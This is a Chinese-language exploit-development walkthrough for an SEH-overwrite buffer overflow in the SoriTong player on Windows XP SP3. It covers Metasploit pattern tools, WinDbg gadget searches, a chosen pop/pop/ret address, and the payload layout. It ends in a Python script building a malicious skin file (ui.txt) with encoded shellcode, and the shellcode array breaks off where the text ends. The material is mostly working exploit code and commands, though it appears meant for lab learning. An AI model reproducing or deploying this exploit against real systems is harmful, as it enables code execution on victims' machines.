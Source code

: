 1. 部署winxpSP3虚拟机镜像,安装soritong
2. 利用kali生成一个包含模式字符串的ui.txt
   `usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000 > ui.txt`
3. 将ui.txt复制到soritong目录下的\Skin\Default目录中
4. 使用windbg调试soritong，加载进去之后，先选用debug菜单中的go handled exception, 紧接着选用go unhandled exception.

![windbg调试](https://laoba-1304292449.cos.ap-chengdu.myqcloud.com/img/20221011154339.png)

5. 可以看到eip被覆盖为了0x41367441, 也就是A6tA。然后我们利用kali查找A6tA在模式字符串中的位置，
   `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q At6A  `

![确定溢出位置](https://laoba-1304292449.cos.ap-chengdu.myqcloud.com/img/20221011154410.png)

发现其处于588的位置，由于当异常发生时，程序会跳转到SEH handler去执行，通过将这个handler的值设置为程序自带模块的一个pop/pop/ret地址，能够实现程序跳转到next seh pointer去，在next seh中需要做的就是跳转到shellcode执行。将next seh的值弹到了eip而已。shellcode的布局大致如下：

![shellcode](https://laoba-1304292449.cos.ap-chengdu.myqcloud.com/img/20221011154457.png)

然后我们可以去找，程序中自带的pop+pop+ret的地址。在windbg中输入lm，可以找到程序会使用的模块。

![lm](https://laoba-1304292449.cos.ap-chengdu.myqcloud.com/img/20221011154518.png)

6. 再利用windbug 命令 s +首地址+尾地址+5f 5e c3(pop/pop/ret的机器码)去寻找这些指令。最终在Play模块中成功找到。需要注意的是，这里面不是每一个模块都能用。需要尝试几次 `s 10000000 10094000 5f 5e c3`

![pop+pop+ret](https://laoba-1304292449.cos.ap-chengdu.myqcloud.com/img/20221011154600.png)

随机挑一个 0x10014499 作为填充seh的内容。这里再解释一下pop pop ret指令的作用，当异常发生的时候，异常分发器创建自己的栈帧，会将EH handler成员压入新创的栈帧中，在EH结构中有一个域是EstablisherFrame。这个域指向异常注册记录(next seh)的地址并被压入栈中，当一个函数被调用的时候被压入的这个值是位于ESP+8的地方。使用pop pop ret后，就会将next seh的地址放到EIP中。

![except_handler](https://laoba-1304292449.cos.ap-chengdu.myqcloud.com/img/20221011154640.png)

因为shellcode在运行的过程会操作栈空间，所以我们需要在栈空间中留出一小部分。在shellcode前后最好都要留出空位。这样执行成功率比较大。如果执行不成功，就尝试加大空位的大小。

最终的shellcode就是

```C++

junk:584字节 ‘A’

next seh:”\xeb\x46\x90\x90” (jmp跳转指令)

seh:”\x99\x44\x01\x10”

junk2: ‘\x90’*64

shellcode：弹个计算器.也可以在网上找 可以使用kali的msfvenom生成，但是有的不能运行。

junk3 ‘\x90’*1000  必须要填充，否则没有办法执行呢！
```

这个python需要用pyhon2.5生成！

```python
name = "ui.txt"
data = "A" * 584
nextseh = "\xeb\x46\x90\x90"
seh = "\x99\x44\x01\x10"
junk2="\x90"*64

shellcode = ("\xeb\x03\x59\xeb\x05\xe8\xf8\xff\xff\xff\x4f\x49\x49\x49\x49\x49"
"\x49\x51\x5a\x56\x54\x58\x36\x33\x30\x56\x58\x34\x41\x30\x42\x36"
"\x48\x48\x30\x42\x33\x30\x42\x43\x56\x58\x32\x42\x44\x42\x48\x34"
"\x41\x32\x41\x44\x30\x41\x44\x54\x42\x44\x51\x42\x30\x41\x44\x41"
"\x56\x58\x34\x5a\x38\x42\x44\x4a\x4f\x4d\x4e\x4f\x4a\x4e\x46\x44"
"\x42\x30\x42\x50\x42\x30\x4b\x38\x45\x54\x4e\x33\x4b\x58\x4e\x37"
"\x45\x50\x4a\x47\x41\x30\x4f\x4e\x4b\x38\x4f\x44\x4a\x41\x4b\x48"
```
